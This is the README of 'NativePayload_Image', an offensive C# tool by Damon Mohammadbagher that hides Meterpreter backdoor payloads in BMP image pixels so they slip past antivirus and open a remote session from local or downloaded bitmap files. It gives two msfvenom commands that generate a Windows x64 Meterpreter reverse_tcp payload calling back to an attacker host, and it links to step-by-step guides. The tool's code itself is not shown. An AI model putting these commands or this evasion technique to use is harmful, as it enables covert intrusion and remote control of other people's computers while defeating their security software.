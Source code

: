 # NativePayload_Image
Transferring Backdoor Payloads with BMP Image Pixels also Bypassing AVS
with this tool you can Make and Modify Bitmap files for Injecting Meterpreter payload to file also you can use this tool like backdoor for Getting Meterpreter Session by Local Bitmap Files or With Downloading Bitmap Files by Url  (HTTP Traffic).
   
   C# Code : NativePayload_Image.exe  ,  Published by Damon Mohammadbagher
   
        /// .Net Framework 2.0 , 3.5 and 4.0 only supported
        /// .Net Framework 4.5 and 4.6 Not Supported ;O
        
        /// Windows 2008 R2 tested with BMP Format only .
        /// Note : tested and worked by MS Paint for Viewing bmp files only.
        
        /// in kali linux you can use "hexeditor" command and in windows you can use "Hex editor NEO".
        /// for meterpreter payload
        /// msfvenom --platfoem windows --arch x86_64 -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.2 -f c > payload.txt
        /// msfvenom --platfoem windows --arch x86_64 -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.2 -f num > payload.txt 
        
        
        for more information and using tool "NativePayload_Image.exe" Step by Step Please visit one of these links :
        1. link: https://www.peerlyst.com/posts/transferring-backdoor-payloads-with-bmp-image-pixels-damon-mohammadbagher
        2. link: https://www.linkedin.com/pulse/transferring-backdoor-payloads-bmp-image-pixels-damon-mohammadbagher
        
        
